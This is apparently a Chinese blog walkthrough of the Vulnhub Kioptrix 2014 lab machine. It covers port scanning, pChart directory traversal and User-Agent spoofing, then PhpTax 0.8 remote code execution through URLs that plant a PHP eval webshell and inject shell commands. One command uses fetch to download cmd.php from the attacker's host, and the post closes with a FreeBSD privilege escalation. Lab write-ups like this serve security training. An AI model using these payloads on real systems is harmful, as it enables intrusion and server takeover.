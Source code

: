 ```yaml
---
title: Vulnhub 62 KIOPTRIX-2014 
date: 2014-4-6
---
```


考点： user-agent,rce,lfi

靶机链接：<https://www.vulnhub.com/entry/kioptrix-2014-5,62/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.135 |
| KIOPTRIX: 2014 (#5) | 192.168.88.148 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.148
$ sudo nmap -v -A -p- $rip
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
| http-methods: 
|_  Supported Methods: POST
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: 403 Forbidden
```

### WEB测试

#### 80

![](https://www.vulnhub.cn/walkthrough/62/1.webp)



![](https://www.vulnhub.cn/walkthrough/62/2.webp)

##### pChart2.1.3

参考 [Exploiting pChart 2.1.3 (Directory traversal & XSS) ](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

任意文件读取

![](https://www.vulnhub.cn/walkthrough/62/3.webp)

读取apache配置

![](https://www.vulnhub.cn/walkthrough/62/4.webp)

#### 8080

firefox添加扩展，自定义user-agent

![](https://www.vulnhub.cn/walkthrough/62/5.webp)

![](https://www.vulnhub.cn/walkthrough/62/6.webp)

发现phptax

## 获得权限

### 思路一

参考 [PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution](https://www.exploit-db.com/exploits/25849)

```
http://192.168.88.148:8080/phptax/index.php?field=123.php&newvalue=<?php eval($_REQUEST[123])?>
```

![](https://www.vulnhub.cn/walkthrough/62/10.webp)

![](https://www.vulnhub.cn/walkthrough/62/11.webp)

### 思路二

参考 [phptax 0.8 - Remote Code Execution](https://www.exploit-db.com/exploits/21665)

```http
http://192.168.88.148:8080/phptax/index.php?pfilez=1040pg1.tob;%20ps%20-aux%3E/tmp/1;&pdf=make
```

然后利用pChart2.1.3的任意文件读取查看执行结果

![](https://www.vulnhub.cn/walkthrough/62/7.webp)

尝试nc反弹失败

![](https://www.vulnhub.cn/walkthrough/62/8.webp)

![](https://www.vulnhub.cn/walkthrough/62/9.webp)

nc是残版

尝试wget、curl均执行失败，使用fetch下载文件成功

```http
http://192.168.88.148:8080/phptax/index.php?pfilez=1040pg1.tob;%20%20fetch%20http://192.168.88.135/cmd.php%3E%20/tmp/1;&pdf=make
```

![](https://www.vulnhub.cn/walkthrough/62/12.webp)

## 提权

上传phpspy.php

![](https://www.vulnhub.cn/walkthrough/62/13.webp)

反弹shell

参考 [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation](https://www.exploit-db.com/exploits/26368)

![](https://www.vulnhub.cn/walkthrough/62/14.webp)
